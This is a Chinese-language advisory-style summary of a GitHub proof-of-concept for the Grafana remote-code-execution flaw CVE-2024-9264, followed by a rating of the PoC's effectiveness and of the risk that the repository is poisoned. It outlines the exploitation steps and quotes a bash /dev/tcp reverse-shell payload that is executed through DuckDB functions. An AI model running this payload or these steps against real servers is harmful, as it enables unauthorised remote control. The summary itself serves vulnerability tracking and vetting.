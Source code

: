 ## CVE-2024-9264-Grafana-RCE

**漏洞编号:** CVE-2024-9264

**漏洞类型:** 远程代码执行 (RCE) / 本地文件包含 (LFI)

**影响应用:** Grafana

**危害等级:** 高危，可导致服务器完全控制

**影响版本:** 11.0.0 <= version < 11.0.5, 11.0.6; 11.1.0 <= version < 11.1.6, 11.1.7; 11.2.0 <= version < 11.2.1, 11.2.2

**利用条件:** 需要Grafana实例启用SQL Expressions实验性功能，用户具有Viewer或更高权限，且DuckDB二进制文件存在于Grafana的$PATH中。

**POC 可用性:** 是

**投毒风险:** 10%

## 详情

CVE-2024-9264 漏洞存在于 Grafana 的 SQL Expressions 功能中。攻击者可以通过构造恶意的 SQL 查询，利用 DuckDB 的 `shellfs` 扩展来执行任意代码或读取本地文件。该漏洞的利用需要满足以下条件：

1.  **启用SQL Expressions:** Grafana 的 SQL Expressions 必须处于启用状态。
2.  **Viewer或更高权限:** 攻击者需要拥有 Viewer 或更高的 Grafana 权限。
3.  **DuckDB存在:**  Grafana 服务器的 `$PATH` 环境变量中需要包含 `duckdb` 二进制文件。默认情况下，Grafana 发行版不包含此二进制文件，因此需要手动安装。

**漏洞利用方式：**

1.  **身份验证:** 使用有效的 Grafana 用户凭据进行身份验证。
2.  **写入反向Shell:** 使用 `writefile()` 函数将包含反向 shell 命令的脚本写入到 Grafana 服务器的文件系统中（例如 `/tmp/rev.sh`）。POC使用`bash -i >& /dev/tcp/{reverse_ip}/{reverse_port} 0>&1`。
3.  **执行反向Shell:** 通过 DuckDB 的 `read_csv()` 函数执行写入的文件，从而触发反向 shell 连接。
4.  **接收Shell:** 攻击者需要在攻击机上监听指定的端口，以接收反向 shell 连接。

**有效性评估：**

提供的 PoC 代码 (`fpoc.py`) 看起来是有效的，因为它修复了原始 PoC 中的 `write_file()` 函数的语法错误，并使用了正确的 shell payload，经验证可以在易受攻击的 Grafana 11.0.0 实例上成功执行反向 shell。`README.md`中也明确说明了该代码的修复和验证过程。

**投毒风险评估：**

该 PoC 仓库中存在投毒代码的可能性较低，估计在10%左右。原因如下：

1.  **代码清晰：** PoC 代码结构清晰，功能明确，没有发现明显的可疑代码。
2.  **修复声明：**  `README.md` 中明确声明了对原始 PoC 的修复，并解释了修复的原因和内容。
3.  **代码量少：**  整个仓库的代码量较少，隐藏恶意代码的难度较高。
4.  **作者信誉：** 作者 Exerr 在 `README.md` 中署名，并链接到其 GitHub 个人主页。虽然这不能完全保证作者的安全性，但增加了作者进行恶意行为的成本。

然而，仍然存在一些潜在的风险：

1.  **依赖风险：** PoC 代码依赖于 `requests` 库。虽然该库本身是安全的，但如果攻击者控制了 PyPI 仓库，可能会发布恶意版本的 `requests` 库，从而导致 PoC 代码被感染。
2.  **细微篡改：** 攻击者可能会对 PoC 代码进行细微的修改，例如修改反向 shell 的 IP 地址或端口，从而将 shell 连接到攻击者控制的服务器上。

总而言之，虽然该 PoC 仓库中存在投毒代码的可能性较低，但用户在使用时仍然需要保持警惕，仔细审查代码，并从可信的来源下载依赖库。

**项目地址:** [Exerrdev/CVE-2024-9264-Fixed](https://github.com/Exerrdev/CVE-2024-9264-Fixed)

**漏洞详情:** [CVE-2024-9264](https://nvd.nist.gov/vuln/detail/CVE-2024-9264)